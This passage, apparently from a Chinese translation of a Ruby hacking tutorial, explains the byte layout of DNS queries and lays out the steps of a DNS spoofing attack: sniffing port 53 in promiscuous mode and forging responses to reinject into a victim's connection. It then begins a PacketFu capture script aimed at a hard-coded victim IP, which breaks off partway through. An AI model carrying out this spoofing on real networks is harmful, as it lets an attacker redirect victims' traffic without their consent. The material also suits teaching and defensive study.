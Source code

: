 +   **查询**从有效载荷的 *第 13 个字节* 开始。

    +   第 13 个字节指定域名的长度 *在* *第一个点之前*（不包括最后一个点 com 或其他顶级域）。 （我们的情况：`\x07`）**尝试：**`[%w{ 74 77 69 74 74 65 72 }.join].pack("H*")`

        +   注意 "twitter.com" 的域名等于 `\x07`，但是 "www.twitter.com" 的域名等于 `\x03`，子域名也是同样的考虑。

        +   第一个点后的每个点都将被后面字符的长度替换。

            **例如：** www.google.co.uk

            +   第一个长度（**www**）=> 将被替换为 `\x03`

            +   第一个点（**.google**）=> 将被替换为 `\x06`

            +   第二个点（**.co**）=> 将被替换为 `\x02`

            +   第三个点（**.uk**）=> 将被替换为 `\x02`

    +   域名字符串的最后以 `\x00` 结束。

    +   接下来的 2 个字节指的是查询的**类型**^([4](#fn_4))。（我们的情况：`\x00\x01`）

**现在怎么办？！**

+   我们需要开始在特定接口上捕获/嗅探数据包。

+   我们需要在我们的接口上启用混杂模式

+   我们需要仅捕获端口 53 上的 UDP 数据包。

+   我们需要解析/分析仅有效的 UDP 数据包。

+   我们需要确保此数据包是 DNS 查询

+   我们需要获取查询/请求的域名

    +   我们需要知道域名的长度

    +   我们需要获取 FQDN

+   构建 DNS 响应

+   用我们想要的任何域名替换请求的域名

+   重新注入数据包到受害者连接并发送

我们将划分我们的任务，然后将其封装在一个脚本中。

```
#!/usr/bin/env ruby
#
require 'packetfu'

include PacketFu

#
# * We need to start capturing/sniffing on specific interface
# * We need to enable promiscuous mode on our interface
# * We need to capture UDP packets on port 53 only
#
filter = "udp and port 53 and host " + "192.168.0.21"
capture = Capture.new(:iface => "wlan0",:start => true, :promisc => true, :filter => filter, :save => true)

# * We need to get the queried/requested domain
#    * We need to know the domain length
#    * We need to get the FQDN
#
# Convert DNS Payload to readable - Find The FQDN
#
def readable(raw_domain)
  # Prevent processing non domain
  if raw_domain[0].ord == 0
    puts "ERROR : THE RAW STARTS WITH 0"
```
